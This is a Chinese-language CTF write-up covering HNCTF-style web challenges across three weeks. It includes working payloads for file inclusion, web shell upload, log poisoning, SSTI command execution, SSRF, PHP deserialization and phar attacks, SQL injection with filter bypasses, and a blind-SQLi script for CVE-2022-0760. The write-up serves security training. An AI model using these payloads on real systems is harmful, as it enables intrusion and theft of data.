# week1

## 2048


一个2048小游戏，先看看源码

在源码中看到游戏的js文件



找找看有没有flag

找到这一段代码



原来要超过20000分才弹出flag，这里直接把代码放到控制台运行，弹出flag


## Interesting\_include



文件包含,没什么难度

```
payload: ?filter=php://filter/convert.base64-encode/resource=flag.php
```

然后将得到的字符串拿去base64解码即可

## easy\_upload



随便上传一个1.php，然后用蚁剑连接，在根目录下得到flag

## easy\_html


饼干？那就是cookie咯，在浏览器里看看



在请求头里看到flag的信息，访问这个php文件

随便输一个手机号码，但是都没什么用，于是审查一下源码

谁的电话号只有10位啊？应该要修改一下变成11位



修改过后随便输11位数字就弹出flag，很基本的前端问题

## What is web

上源码



在注释里面看到flag，base64解密一下就行了

## Interesting\_http

又是一道http的题



那就给他一个want吧



不是管理员身份，抓个包看看



原来在cookie里面设置了管理员身份

只需要修改为 user=admin 即可绕过



不在本地，那么就加一个XFF头吧

```
X-Forwarded-For:127.0.0.1
```

## Challenge\_rce



源码里给出提示，要GET一个hint



无参数RCE一般有三种思路，自增、取反、异或

这里就试试自增吧

由于php变量没有赋值时默认是零，且数组与字符串拼接时返回Array

```
<?php
$_=_.[];
echo $_;
```

执行结果就是输出一个Array（我用的php5会报错，php7就不会）



然后用其中的字母进行自增构造执行语句



这样是能构造出GET的，但是长度会超过限制，得想想其它的办法

可以使用chr()函数，因为没有对数字进行过滤，可以直接通过数字获得字母

获得chr函数后就很容易得到GET，如图下

```
<?php
$_=[]._;
$__=$_[1];
$_=$_[0];
$_++;
$_1=++$_;
$_++;
$_++;
$_++;
$_++;
$_=$_1.++$_.$__;//chr
$_=_.$_(71).$_(69).$_(84);//GET
$$_[1]($$_[2]);
```

相当于在最后构造了一个 $\_GET\[\_\]($\_GET\[\_\_\])

传两个参数，一个作为函数名，另一个作为命令

post的时候注意将rce进行urlencode编码一下



得到flag

# week2

## ez\_SSTI



给了一个链接点进去看看



好像是要GET一个name参数

试试看看



直接开始注入



```
payload:{{lipsum.__globals__.__getitem__('os').popen('ls').read()}}
或者
{{url_for.__globals__.os.popen('ls').read()}}
```

没过滤什么东西，有很多语句都能注入

## ez\_ssrf

进去是下面这个界面



题目提示访问index.php

如下

```
 <?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
    die();
}
else {
    fwrite($fp,$data);
    while(!feof($data))
    {
        echo fgets($fp,128);
    }
    fclose($fp);
} 
```

该代码的作用是通过将传递的参数$data进行base64解码后，将数据发送到指定的主机$host和端口$port，并读取响应数据。这里并没有做任何的过滤。

直接伪造host为127.0.0.1

port为80，因为http默认为80端口

那么对于data的内容就要复杂点了

```
<?php
$out = "GET /flag.php HTTP/1.1\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "Connection: Close\r\n\r\n";
echo base64_encode($out);
?>
```

这里搬运一下别人的代码↑

这个data伪造了一个http请求

```
payload：index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=
```

## easy\_include

```
<?php
//WEB手要懂得搜索

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

这里涉及到了user-agent的木马注入

文件日志默认地址为`/var/log/nginx/access.log`

访问会在日志文件中留下UA头里的东西，抓个包，把ua头改为一句话木马

再将日志文件包含，即可爆出flag

原理：文件包含 include能执行括号内的命令，所以包含了日志的时候，执行了一句话木马。

## Canyource

```
<?php
highlight_file(__FILE__);
if(isset($_GET['code'])&&!preg_match('/url|show|high|na|info|dec|oct|pi|log|data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['code'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);}
else
    die('nonono');}
else
    echo('please input code');
?>
```

\\w 的释义一般都是指包含大小写字母数字和下划线

R 是正则的递归模式

这个正则替换就是把 ”函数名（函数内容）“ 替换成空，直到最后只剩一个分号

这种情况就只有用php函数来读取文件了

```
payload：print_r(scandir(current(localeconv())));
```

可以扫出当前目录的文件



看到flag在第三个，那就反转一下，再next指向第二个就行了

但是high和show被检测到了，那么就不能使用highlight\_file和show\_source函数了

得想想其他办法

php中有一个函数是 readfile()

用来读取文件的，这里刚好没有过滤

构造如下

```
payload；readfile(next(array_reverse(scandir(current(localeconv())))));
```

## easy\_unser

一道反序列化的题



代码真的长。。。。花里胡哨的

先审计一下代码吧。

下面那个类没什么用

关键是上面那个类的want，我们要将其highlight\_file

要要注意绕过wake函数，把序列化的属性加1就行

好像是php7以后对public和private不敏感

这道题无法使用public

```
<?php
class body{
    public $want='php://filter/resource=f14g.php';
    public $todonothing='123';
}
$a=new body;
echo serialize($a);
?>
```

我的php代码是这样的，不过看到一些wp上把序列字符串进行了urlencode，这里不加密也能执行

要注意的是生成的字符串如下

```
O:4:"body":2:{s:10:" body want";s:30:"php://filter/resource=f14g.php";s:17:" body todonothing";s:3:"123";}
```

由于变量的属性是private，在name里会有特殊字符不可见，应该将其修改为%00

才能生效

最后记得把属性个数加一

```
最终payload：?ywant=O:4:"body":3:{s:10:"%00body%00want";s:30:"php://filter/resource=f14g.php";s:17:"%00body%00todonothing";s:3:"123";}
```

## easy\_sql

sql题来咯！



随便测试一下，发现是字符型注入

而且空格被过滤了，用/\*\*/绕过

and居然也被过滤了

只能一个一个试了，发现有三列。

```
0'union/**/select/**/1,2,database()/**/where/**/'1
```

继续爆破

information\_schema也被过滤了。。。

还好我留了几个功能差不多的

```
sys.schema_table_statistic_with_buffer  (列名与information_schema一样)

sys.x$ps_schema_table_statistics_io

mysql.innodb_table_stats
```

用第三个吧，字数少一些。

构造如下

```
0'union/**/select/**/1,2,group_concat(database_name)/**/from/**/mysql.innodb_table_stats/**/where/**/'1
```



为什么会有三个一样的库？

查了一下资料innodb无法查列名

实在是弄不明白，上答案

```
0'union/**/select/**/1,2,group_concat(`1`)/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag)a/**/where/**/'1
```

看了一会有些思路

wp里的反引号括起来的1是指的表中名字为‘1’的那一列

括号里的是1联合查询ctftraining.flag里的所有列，并命名为a

flag有可能不在第一列中，所以用通配符\*进行匹配

然后和 select的1组合起来形成一列

头都快炸了。。。

## ohmywordpress

没啥思路，上网搜搜

发现 CVE-2022-0760

是一个时间盲注的题

直接上脚本

```
import requests
import time
# 这里我们直接猜测flag和上一个sql注入的flag位置相同
# flag
# ctftraining.flag
url = "http://node2.anna.nssctf.cn:28433/wp-admin/admin-ajax.php"

dict="NSSCTF{_-abcdefghijklmnopqrstuvwxyz0123456789}~"
def get_values():
    count = 8
    flag = ''
    while True:
        for i in dict:
            data = {
                    "action": "qcopd_upvote_action",
                    "post_id": f"(SELECT 3 FROM (SELECT if(ascii(substr((select group_concat(flag) from ctftraining.flag),{count},1))={ord(i)}, sleep(2),0))enz)"
                    }
            print(i)
            start_time = time.time()
            resp = requests.post(url=url, data=data)
            end_time = time.time()
            if end_time-start_time>=1.5:
                flag += i
                print(flag)
                count += 1
                break
            elif i == "~":
                return False
            time.sleep(0.05)
get_values()
```

# week3

## ssssti



通过name传参

不过这道题过滤了一些东西

我比较喜欢的一个payload：

```
{{lipsum.__globals__.__getitem__('os').popen('ls').read()}}
```

但是被检测到了

那想想怎么绕过

```
{{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=ls
```

通过引入参数是可以的

看看别人的wp

```
?name={{config[request.values.a][request.values.b][request.values.c][request.values.d].popen(request.values.f).read()}}&a=class&b=init&c=globals&d=os&f=cat flag
```

或者

```
?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=globals&b=os&c=cat /flag
```

方法很多。

## Fun\_php

审计代码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
include "k1y.php";
include "fl4g.php";
$week_1 = false;
$week_2 = false;

$getUserID = @$_GET['user']; 
$getpass = (int)@$_GET['pass']; 
$getmySaid = @$_GET['mySaid']; 
$getmyHeart = @$_GET['myHeart']; 

$data = @$_POST['data'];
$verify =@$_POST['verify'];
$want = @$_POST['want'];
$final = @$_POST['final'];

if("Welcom"==0&&"T0"==0&&"1he"==1&&"HNCTF2022"==0)
    echo "Welcom T0 1he HNCTF2022<BR>";

if("state_HNCTF2022" == 1) echo $hint;
    else echo "HINT? NoWay~!<BR>";

if(is_string($getUserID))
    $user = $user + $getUserID; //u5er_D0_n0t_b3g1n_with_4_numb3r

if($user == 114514 && $getpass == $pass){
    if (!ctype_alpha($getmySaid)) 
        die();
    if (!is_numeric($getmyHeart)) 
        die();
    if(md5($getmySaid) != md5($getmyHeart)){
        die("Cheater!");
    }
    else
        $week_1 = true;
}

if(is_array($data)){
    for($i=0;$i<count($data);$i++){

        if($data[$i]==="Probius") exit();

        $data[$i]=intval($data[$i]);
    }
    if(array_search("Probius",$data)===0)
        $week_2 = true;

    else
        die("HACK!");
}
if($week_1 && $week_2){
    if(md5($data)===md5($verify))
        // ‮⁦HNCTF⁩⁦Welcome to
        if ("hn" == $_GET['hn'] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦ctf" == $_GET[‮⁦LAG⁩⁦ctf]) { //HN! flag!! F
        
            if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
                die("HACK!");
       
                else{
                    echo "Fine!you win";
                    system("cat ./$want");
                 }
    }
    else
        die("HACK!");
} 
```

思路还是比较清晰的

首先user要等于114514，而且还要是字符串，幸好是弱比较

直接user=114514a即可

然后下面是一个md5的弱比较，要求一个纯字母一个纯数字，印象中刚好有两个这样的字符串

```
mySaid=QNKCDZO&myHeart=240610708
```

week1变为true，现在就差week2了，看看下面那部分

data要是数组，data\[\]=0就可以了

MD5比较，verify\[\]=1绕过

因为md5不能加密数组，加密会返回null



这里有点奇怪，后面那个flag怎么颜色不一样？

想起来之前做过一道题，出题人在php代码里加了一些不可见字符

试试把源码放到phpstorm上试试



果然是这样！！！

将其复制到编码网站，用urlencode一下在进行传参

我用的hackbar每次都不行不知道为什么


在源码里拿到flag

## ez\_phar



没有直接反序列化的点

题目也让上传东西，那么应该是phar反序列化的知识

发现有upload.php

应该是从这里上传phar文件

一个基本的生成phar文件的模板👇

```
<?php
class Flag{
    public $code = "system('cat /ffflllaaaggg');"; //system('ls /');
}
$a = new Flag();
 

$phar = new phar('b.phar');//对phar对象进行实例化，以便后续操作。

$phar -> startBuffering();//缓冲phar写操作（不用特别注意）
 

$phar -> setStub("<?php __HALT_COMPILER(); ?>");//设置stub，为固定格式
 

$phar -> setMetadata($a);//把我们的对象写进Metadata中
 

$phar -> addFromString("test.txt","helloworld!!");//写压缩文件的内容，这里没利用点，可以随便写
 

$phar -> stopBuffering();//停止缓冲
?>
 
```
